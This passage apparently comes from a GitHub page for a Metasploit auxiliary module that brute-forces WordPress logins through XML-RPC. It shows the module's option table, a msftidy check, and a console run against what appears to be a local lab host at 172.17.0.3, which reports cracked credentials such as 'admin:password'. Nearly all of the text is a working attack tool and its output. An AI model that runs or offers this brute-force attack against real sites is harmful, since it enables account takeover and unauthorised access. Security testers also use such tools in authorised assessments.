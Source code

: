 ```ruby
        end

  end end end
end
```
- [x] Check if the module has been written correctly (msftidy.rb)

```
metasploit-framework/tools/dev/msftidy.rb wordpress_xmlrpc_massive_bruteforce.rb
```

**Run it**
```
msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > show options 

Module options (auxiliary/scanner/http/wordpress_xmlrpc_massive_bruteforce):

   Name         Current Setting                                                                 Required  Description
   ----         ---------------                                                                 --------  -----------
   BLOCKEDWAIT  6                                                                               yes       Time(minutes) to wait if got blocked
   CHUNKSIZE    1500                                                                            yes       Number of passwords need to be sent per request. (1700 is the max)
   Proxies                                                                                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST        172.17.0.3                                                                      yes       The target address
   RPORT        80                                                                              yes       The target port
   TARGETURI    /                                                                               yes       The base path
   VHOST                                                                                        no        HTTP server virtual host
   WPPASS_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_pass.txt   yes       File containing passwords, one per line
   WPUSER_FILE  /home/KING/Code/MSF/metasploit-framework/data/wordlists/http_default_users.txt  yes       File containing usernames, one per line

msf auxiliary(wordpress_xmlrpc_massive_bruteforce) > run

[*] Checking 172.17.0.3:80 status!
[*] Target 172.17.0.3:80 is running WordPress
[*] Brute forcing user: admin
[+] Credentials Found! admin:password
[*] Brute forcing user: manager
[*] Brute forcing user: root
[*] Brute forcing user: cisco
[*] Brute forcing user: apc
[*] Brute forcing user: pass
[*] Brute forcing user: security
[*] Brute forcing user: user
[*] Brute forcing user: system
[+] Credentials Found! system:root
[*] Brute forcing user: sys
[*] Brute forcing user: wampp
[*] Brute forcing user: newuser
[*] Brute forcing user: xampp-dav-unsecure
[*] Auxiliary module execution completed
```


